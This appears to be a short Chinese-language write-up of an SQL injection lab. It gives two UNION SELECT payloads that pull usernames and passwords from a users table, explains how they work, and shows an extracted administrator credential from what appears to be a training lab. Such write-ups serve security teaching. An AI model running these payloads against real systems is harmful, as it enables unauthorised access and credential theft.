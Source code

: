 ![image-20240909214056448](./imgs/image-20240909214056448.png)

第一种是通过SQL语法，查询用户名为administrator的用户对应的密码：

```
'UNION SELECT null,password from users where username ='administrator'--
```

但是这种方式默认管理员用户名已知，局限性太大。所以推荐第二种方式进行注入

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

上面语句将两个 SELECT 查询的结果合并在一起，以便从不同的表中选择不同的列并将它们组合起来。在这个例子中，第一个 SELECT 语句选择了 NULL 常量值作为占位符，第二个 SELECT 语句选择了 username 和 password 列，并使用 '||' 运算符将它们连接起来，并在它们之间添加了一个自定义的分隔符 '~'。

![image-20240909214232858](./imgs/image-20240909214232858.png)

administrator~vm4mrp1xhneww7ilbphc
